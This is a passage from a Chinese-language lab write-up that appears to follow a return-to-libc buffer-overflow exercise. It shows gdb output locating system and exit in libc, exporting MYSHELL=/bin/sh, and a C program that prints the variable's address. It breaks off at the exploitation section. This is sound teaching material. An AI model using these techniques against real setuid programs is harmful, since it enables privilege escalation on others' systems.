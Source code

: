 GDB: GUN Project Debuger [参考](https://blog.csdn.net/haoel/article/details/2879)

``` sh
gdb -q retlib
run
>>> ... ...
p system
>>> $1 = {<text variable, no debug info>} 0xb7da4da0 <__libc_system>
p exit
>>> $2 = {<text variable, no debug info>} 0xb7d989d0 <__GI_exit>
```

更换文件, 修改文件的用户所有, 切换 shell, 都会导致地址出现变化. 

## T2 Putting the shell string in the memory

shell 是用户与系统之间交互的界面, 它是程序, 系统工作时就是一个进程. 

shell 在接受用户的任务之后, 会先 fork 一个子进程, 并将所有 exported shell 变量放入到子进程的环境变量中, 让子进程能够访问这些变量. 那么攻击的方法就是在这些变量中插入一些不该有的东西. 

``` sh
export MYSHELL=/bin/sh 
env | grep MYSHELL 
>>> MYSHELL=/bin/sh
```
export 指令
env 指令
grep 指令

可以创建一个 task2.c 的文件, 并写入
``` c
#include<stdio.h>
void main(){
    char* shell = getenv("MYSHELL"); 
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

``` sh
gcc -o task2 task2.c && ./task2
>>> bffffdf1
```

如果再创建一个 task2-1.c 内容和 task2.c 一致
``` sh
gcc -o task2-1 task2-1.c && ./task2-1
>>> bffffded
```
同一个 shell 变量的地址在不同程序中打印出的结果不一致, 但很接近. 

## T3 Exploiting the buffer-overflow vulnerability

当前用户已经能够使用 sudo 权限, 但是无法进入到 root 环境中. 
